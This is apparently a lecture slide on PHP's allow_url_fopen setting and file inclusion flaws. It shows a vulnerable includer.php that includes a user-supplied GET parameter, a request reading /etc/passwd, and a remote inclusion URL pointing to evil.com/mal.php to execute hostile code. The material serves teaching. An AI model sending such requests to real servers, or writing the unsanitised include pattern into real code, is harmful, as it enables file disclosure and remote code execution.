

# allow_url_fopen (On by default)
The include() function in PHP is like SSIs
<?php include(‘common.php’); ?>
But it’s dangerous if the arg is user-supplied and not santized
includer.php: <?php include($_GET[‘file’]) ?>
GET /includer.php?file=/etc/passwd
If allow_url_fopen is On, we can do better: pass a URL containing malicious code, and it gets executed!
/includer.php?file=http://evil.com/mal.php